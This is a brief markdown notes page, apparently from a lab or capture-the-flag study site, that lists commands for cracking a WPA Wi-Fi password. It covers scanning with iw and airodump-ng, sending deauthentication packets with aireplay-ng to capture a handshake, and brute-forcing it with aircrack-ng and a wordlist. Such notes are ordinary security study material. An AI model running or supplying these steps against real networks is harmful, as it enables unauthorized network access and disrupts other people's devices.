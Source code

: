 ```yaml
---
title: Wi-Fi Hacking
sidebar_position: 4
---
```


## WPA Hacking
- List all interfaces with the command `iw dev`.
- Scan for new networks using `sudo iw dev wlan2 scan`
- Get the BSSID and SSID values.
- Find the channel value using `sudo airodump-ng wlan2`.
- Attack the channel and create an output file using `sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2`. Keep this running.
- Open another terminal and send deauthentication packets to the connected device using `sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2`
- Wait for the 4 way handshake to happen in the first terminal.
- Bruteforce the password after the handshake happened using `sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap`.
- Get the password and connect to the interface.